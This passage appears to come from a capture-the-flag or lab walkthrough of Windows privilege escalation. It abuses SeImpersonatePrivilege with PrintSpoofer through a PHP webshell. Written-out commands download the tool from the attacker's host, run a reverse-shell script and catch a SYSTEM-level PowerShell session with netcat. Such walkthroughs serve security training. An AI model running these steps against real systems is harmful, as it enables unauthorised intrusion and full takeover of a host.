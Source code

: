 In the _PRIVILEGES INFORMATION_ section, we discover that the `apache` user has `SeImpersonatePrivilege` enabled. Having researched this privilege, we can leverage it to compromise the `SYSTEM` account by using [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to elevate our privilege.

Let's download **PrintSpoofer64.exe** to our kali machine.

```
┌──(kali㉿kali)-[~]
└─$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
--2021-10-25 08:38:15--  https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
...
```

Hosting it with our python web server, we'll next download it to the target system. Let's use [CyberChef](https://gchq.github.io/CyberChef/) to URL-encode our command and use `curl` again to send a request to the webshell.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.63/cmd.php?cmd=powershell%20iwr%20http://192.168.118.14/PrintSpoofer64.exe%20-OutFile%20C:%5CWindows%5Ctasks%5CPrintSpoofer64.exe
```

With **PrintSpoofer64.exe** in place, we can reuse the **rev.ps1** we dropped earlier to facilitate a reverse shell with higher privileges.

Let's start a listener on the same port as before.

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
```

Next, we once again use [CyberChef](https://gchq.github.io/CyberChef/) to encode our payload that executes the reverse shell with **PrintSpoofer64.exe**.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.63/cmd.php?cmd=C:%5CWindows%5Ctasks%5CPrintSpoofer64.exe%20-c%20%22cmd%20/c%20powershell%20-c%20C:/Windows/Tasks/rev.ps1%22
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

We now have a connection back to our listener with a `SYSTEM` level PowerShell session!

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.118.14] from (UNKNOWN) [192.168.120.63] 49913
whoami
nt authority\system
PS C:\Windows\system32> 
```